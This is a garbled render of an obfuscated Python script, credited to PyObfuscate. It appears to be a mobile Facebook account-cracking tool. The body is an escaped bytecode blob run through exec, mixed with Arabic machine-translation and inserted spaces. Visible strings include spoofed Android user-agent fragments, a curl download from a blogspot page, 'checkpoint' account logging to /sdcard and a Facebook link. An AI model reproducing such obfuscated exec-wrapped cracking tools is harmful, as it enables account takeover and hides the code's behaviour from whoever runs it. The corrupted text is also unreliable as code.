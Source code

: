 تشوش مع PyObfuscate
# https://www.github.com/htr-tech
# الوقت: الثلاثاء 24 يناير 19:08:02 2023
# -------------------------------
33 ميجا هرتز \ x07 \ x1b [1؛ 34 ميجا هرتز \ x07 \ x1b [1؛ 35 ميجا هرتز \ x06 {KB} i \ x10 \ '\ x00 \ x00z \ x1eMozilla / 5.0 (Linux؛ U؛ Android) \ x07 \ xda \ x016 \ xda \ x017 \ xda \ x018 \ xda \ x019 \ xda \ x0210 \ xda \ x0211 \ xda \ x0212z \ x0b en-us ؛ GT -) \ x1a \ xda \ x01A \ xda \ x01B \ xda \ x01C \ xda \ x01D \ xda \ x01E \ xda \ x01F \ xda \ x01G \ xda \ x01H \ xda \ x01I \ xda \ x01J \ xda \ x01K \ xda \ x01L \ xda \ x01M \ xda \ x01N \ xda \ x01O \ xda \ x01P \ xda \ x01Q \ xda \ x01R \ xda \ x01S \ xda \ x01T \ xda \ x01U \ xda \ x01V \ xda \ x01W \ xda \ x01X \ xda \ x01Y \ xda \ x01Z \ xe9 \ x01 \ x00 \ x00 \ x00i \ xe7 \ x03 \ x00 \ x00z.AppleWebKit / 537.36 (KHTML ، مثل Gecko) Chrome / \ xe9I \ x00 \ x00 \ x00 \ xe9d \ x00 \ x00 \ x00 \ xda \ x010ih \ x10 \ x00 \ x00i $ \ x13 \ x00 \ x00 \ xe9 (\ x00 \ x00 \ x00 \ xe9 \ x96 \ x00 \ x00 \ x00z \ x14Mobile Safari / 537.36 \ xfa \ x01 z \ x02؛ z \ x02) \ xfa \ x01.z> curl https://bacho1001.blogspot.com/2022/07/ua.html -o ua.htmlz \ x07ua. 91 \ xe2 \ x96 \ x91 \ xe2 \ x96 \ x91 \ xe2 \ x96 \ x91 \ xe2 \ x96 \ x91 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ n \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x84 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ n \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ xe2 \ x96 \ x88 \ n ___ _ _____ _ ____ \ n / _ | / | / / _ | / | / / \\ txtrR \ x00 \ x00 \ x00z \ x03 | rG \ x00 \ x00 \ x00 \ xda \ ncheckpointc \ x01 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x04 \ x00 \ x00 \ x00 \ x13 \ x00 \ x00 \ x00 \ xf3 $ \ x00 \ x00 \ x00 \ x97 \ x00g \ x00 | \ x00] \ r \ x02 \ x00 \ x00} \ x01} \ x02 | \ x01d \ x00z \ x00 \ x00 \ x00 | \ x02z \ x00 \ x00 \ x00 \ x91 \ x02 \ x8c \ x0eS \ x00r \ xbd \ x00 \ x00 \ x00rZ \ x00 \ x00 \ x00r \ xbf \ x00 \ x00 \ x00s \ x03 \ x00 \ x00 \ x00 r \ x12 \ x00 \ x00 \ x00rq \ x00 \ x00 \ x00z \ x18free. <locals>. <listcomp> \ x1b \ x01 \ x00 \ x00r \ xc2 \ x00 \ x00 \ x00r \ x14 \ x00 \ x00 \ x00 \ xe9 \ x18 \ x00 \ x00 \ x00 \ xe9 \ '\ x00 \ x00 \ x00r \ x1a \ x00 \ x00 \ x00ue \ x00 \ x00 \ x00 \ r \ x1b [1؛ 31m [ANANY- \ xef \ xbb \ x96 \ xef \ xbb \ xa0 \ xef \ xbb \ x90 \ xef \ xbb \ xa3 \ xef \ xba \ x8f \ xef \ xba \ x8e \ xef \ xba \ xb4 \ xef \ xba \ xa4 \ xef \ xbb \ x9f \ xef \ xba \ x8dhttps : //www.facebook.com/kristi.ditucc \ xf0 \ x9f \ xa5 \ xba] \ n العدد: z٪ \ n ---------------------- -------------- z \ x14 / sdcard / USMAN-CP.80 \ t \ xf0 \ x04 \ x08 \ x01 \ x14 \ xf0 \ x00 \ x08 \ x01 \ x14 \ xf0 \ x00 \ x08 \ x01 \ x14 \ xf0 \ x12 \ x00 \ x01 \ x05 \ x80 \ x04 \ x81 \ x06 \ x84 \ x06 \ x80 \ x06 \ xe0 \ x00 $ \ xd0 \ x00 $ \ xd0 \ x00 $ \ xd0 \ x00 $ \ xd0 \ x00 $ \ xd0 \ x00 $ \ xd8 \ x009 \ xd0 \ x009 \ xd0 \ x009 \ xd0 \ x009 \ xd0 \ x009 \ xd0 \ x009 \ xd8 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd0 \ x00F \ xd8 \ x00 \ x0 \ x80 \ xe x80 \ x0e \ x80 \ x0e \ xf0 \ x02 \ x08 \ x01N \ x01 \ xd8 \ x04 \ x13 \ x80O \ x80O \ x80O \ xd8 \ x04C \ xd0 \ x04C \ xd0 \ x04C \ xd0 \ x04C \ xC0 \ xd0 \ x04C \ xd8 \ x04 \ x14 \ xd0 \ x04 \ x14 \ xd0 \ x04 \ x14 \ xd0 \ x04 \ x14 \ xd8 \ x043 \ xd0 \ x043 \ xd0 \ x043 \ xd0 \ x043 \ xd0 \ x043 \ xd x043\ xd0 \ x043 \ xf8 \ xd8 \ x07 \ x1a \ xf0 \ x00 \ x03 \ x01N \ x01 \ xf0 \ x00 \ x03 \ x01N \ x01 \ xf0 \ x00 \ x03 \ x01N \ x01 \ xd8 \ x04 \ r \ x80B \ x84I \ xd0 \ x0eM \ xd1 \ x04N \ xd4 \ x04N \ xd0 \ x04N \ xd8 \ x04 \ r \ x80B \ x84I \ xd0 \ x0e \ x1f \ xd1 \ x04 \ xd4 \ x04 \ xd0 \ x04\ xd8 \ x04 \ r \ x80B \ x84I \ xd0 \ x0eL \ xd1 \ x04M \ xd4 \ x04M \ xd0 \ x04M \ xd0 \ x04M \ xd0 \ x04M \ xf0 \ x07 \ x03 \ x01N \ x01 \ xf8 \ \ xf0 \ x08 \ x00 \ x01 \ x1e \ xd0 \ x00 \ x1d \ xd0 \ x00 \ x1d \ xd0 \ x00 \ x1d \ xd0 \ x00 \ x1d \ xd0 \ x00 \ x1d \ xd8 \ x07 \ t \ x80 \ x04 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x04 \ x10 \ x80 \ x01 \ xd8 \ x06 \ x12 \ x80 \ x03 \ xd8 \ x08 \ x14 \ x80 \ x05 \ xd8 \ x08 \ x14 \ x80 \ x05 \ xd8 \ t \ x15 \ x80 \ x06 \ xd8 \ x07 \ x13 \ x80 \ x04 \ xd8 \ t \ x15 \ x80 \ x06 \ xd8 \ x00 \ n \ x80 \ n \ x80 \ n \ x80 \ n \ xd8 \ x00 \ t \ x80 \ t \ x80 \ t \ x80 \ t \ xd8 \ x00 \ x0f \ x80 \ x0f \ x80 \ x0f \ x80 \ x0f \ xd8 \ x05 \ r \ x80 \ x02 \ xd8 \ n \ x0f \ x88٪ \ x90 \ x05 \ x89، \ x8c ، \ xf0 \ x00 \ x0e \ x01 \ x17 \ xf0 \ x00 \ x0e \ x01 \ x17 \ x80B \ xd8 \ x06 &\ x80A \ xd8 \ x06 \ x13 \ x80f \ x84m \ xd0 \ x144 \ xd0 \ x144 \ xd0 \ x144 \ xd1 \ x065 \ xd4 \ x065 \ x80A \ xd8 \ x06 \ x13 \ x80A \ xd8 \ x06 \ x13 \ x80f \ x84m \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf1 \ x00 \ x00 \ x07W \ x02 \ xf4 \ x00 \ x00 \ x07W \ x02 \ x80A \ xd8 \ x06 \ x16 \ x80f \ xd4 \ x06 \ x16 \ x90q \ x98 # \ xd1 \ x06 \ x1e \ xd4 \ x06 \ x1e \ x80A \ xd8 \ x06 \ x13 \ x80f \ x84m \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf0 \ x00 \ x00 \ x15V \ x02 \ xf1 \ x00 \ x00 \ x07W \ x02 \ xf4 \ x00 \ x00 \ x07W \ x02 \ x80A \ xd8 \ x066 \ x80A \ xd8 \ x06 \ x16 \ x80f \ xd4 \ x06 \ x16 \ x90r \ x98 # \ xd1 \ x06 \ x1e \ xd4 \ x06 \ x1e \ x80A \ xd8 \ x06 \ t \ x80A \ xd8 \ x06 \ x16 \ x80f \ xd4 \ x06 \ x16 \ x90t \ x98D \ xd1 \ x06! \ xd4 \ x06! \ x80A \ xd8 \ x06 \ x16 \ x80f \ xd4 \ x06 \ x16 \ x90r \ x98 # \ xd1 \ x06 \ x1e \ xd4 \ x06 \ x1e \ x80A \ xd8 \ x06 \ x1c \ x80A \ xd8 \ r \ x0e \ xd0 \ n: \ xd0 \ n: \ x90 \ x11 \ xd0 \ n: \ xd0 \ n: \ x90a \ xd0 \ n: \ x98 \ x11 \ xd0 \ n: \ x98A \ xd0 \ n: \ x98q \ xd0 \ n: \ xd0 \ n: \ xa0A \ xd0 \ n: \ xa0q \ xd0 \ n: \ xd0 \ n : \ xa81 \ xd0 \ n: \ xd0 \ n: \ xa8q \ xd0 \ n: \ xd0 \ n: \ xb01 \ xd0 \ n:\ xd0 \ n: \ xb0q \ xd0 \ n: \ xd0 \ n: \ x80E \ xd8 \ x04 \ x08 \ x87K \ x82K \ x90 \ x05 \ xd1 \ x04 \ x16 \ xd4 \ x04 \ x16 \ xd0 \ x04 \ x16 \ xd0 \ x04 \ x16 \ xf0 \ x02 \ x03 \ x01 \ t \ xd8 \ x04 \ r \ x80B \ x84I \ xd0 \ x0eN \ xd1 \ x04O \ xd4 \ x04O \ xd0 \ x04O \ xd0 \ x04O \ xf xf0 \ x02 \ x01 \ x01 \ t \ xd8 \ x04 \ x08 \ x80D \ xf8 \ xf8 \ xf8 \ xd8 \ x05 \ t \ x80T \ x88) \ x90C \ xd1 \ x05 \ x18 \ xd4 \ x05 \ x18 \ xd7 \ x05 \ x1d \ xd2 \ x05 \ x1d \ xd1 \ x05 \ x1f \ xd4 \ x05 \ x1f \ xd7 \ x05 * \ xd2 \ x05 * \ xd1 \ x05، \ xd4 \ x05، \ x80 \ x04 \ xf0 \ x02 \ x0b \ x01 <\ xf0 \ x00 \ x0b \ x01 <\ xf0 \ x00 \ x0b \ x01 <\ xf0 \ x18 \ x00 \ x08 \ t \ x80 \ x04 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xf0 \ x04 \ x02 \ x01 \ x10 \ xf0 \ x00 \ x02 \ x01 \ x10 \ xf0 \ x00 \ x02 \ x01 \ x10 \ xf0 \ X06!\ x08M \ x01 \ x80 \ x04 \ xf0F \ x01 \ x01 \ x012 \ xf0 \ x00 \ x01 \ x012 \ xf0 \ x00 \ x01 \ x012 \ xf0 \ x04 \ x0b \ x01 \ x0e \ xf0 \ x00 \ x0b \ x01 \ x0e \ xf0 \ x00 \ x0b \ x01 \ x0e \ xf0 \ x18 \ x00 \ x08 \ t \ x80 \ x04 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xd8 \ x06 \ x08 \ x80 \ x03 \ xf0 \ x02 \ x18 \ x01 \ x1b \ xf0 \ x00 \ x18 \ x01 \ x1b \ xf0 \ x00 \ x18 \ x01 \ x1b \ xf04 \ x15 \ x01 \ x0e \ xf0 \ x00 \ x15 \ x01 \ x0e \ xf0 \ x00 \ x15 \ x01 \ x0e \ xf06 & \ x01 * \ xf0 \ x00 & \ x01 * \ xf0 \ x00 & \ x01 * \ xf0N \ x01B \ x01 \ x01 \ r \ xf0 \ x00B \ x01 \ x01 \ r \ xf0 \ x00B \ x01 \ x01 \ r \ xf0L \ x02 \ x00 \ x04 \ x0c \ x88z \ xd2 \ x03 \ x19 \ xd0 \ x03 \ x19 \ xd8 \ x04 \ x07 \ x80C \ x81E \ x84E \ x80E \ x80E \ x80E \ xf0 \ x03 \ x00 \ x04 \ x1a \ xd0 \ x03 \ x19s \ x1e \ x00 \ x00 \ x00 \ xc1 \ x1b \ x14A0 \ x00 \ xc105B (\ x03 \ xc2 \ '\ x01B (\ x03 \ xc6 ،\ x10F = \ x00 \ xc6 = \ x02G \ x01 \ x03 \ x00 \ x00W \ xb1s \ x02) \ x00S \ x01d \ x00 \ x01 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x01 \ xab \ x00 \ x00 \ x01 \ xa6 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x01 \ xab \ x00 \ x00 \ x01 \ xa6 \ x00d \ x01e \ x00 \ x02 \ x00e \ x00 \ x02 \ x00 \ x97 \ x00 \ x00 \ x00. \ xf3 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x05 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00cN) \ x02 \ xda \ x04exec \ xda \ x01_ \ xa9 \ x00 \ xf3 \ x00 \ x00 \ x00 \ x00 \ xfa \ x03 <x> \ xfa \ x08 <module>r \ x06 \ x00 \ x00 \ x00 \ x01 \ x00 \ x00 \ x00sF \ x00 \ x00 \ x00 \ xf0 \ x03 \ x01 \ x01 \ x01 \ xd8 \ x00 \ x04 \ x80 \ x04 \ x80a \ x80a \ xf0 \ x00 \ x00 \ nTv \ x10 \ xf1 \ x00 \ x00 \ x06Uv \ x10 \ xf4 \ x00 \ x00 \ x06Uv \ x10 \ xf1 \ x00 \ x00 \ x01Vv \ x10 \ xf4 \ x00 \ x00 \ x01Vv \ x10 \ xf0 \ x00 \ x00 \ x01Vv \ x10 \ xf0 \ x00 \ x00 \ x01Vv \ x10 \ xf0 \ x00 \ x00 \ x01Vv \ x10r \ x04 \ x00 \ x00 \ x00 \ x00 \ x00YEs \ x02) \ x00S \ x01d \ x00 \ x01 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x01 \ xab \ x00 \ x00 \ x01 \ xa6 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x01 \ xab \ x00 \ x00 \ x01 \ xa6 \ x00d \ x01e \ x00 \ x02 \ x00e \ x00 \ x02 \ x00 \ x97 \ x00 \ x00 \ x00. \ xf3 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x05 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00 \ x00c '))
تذييل

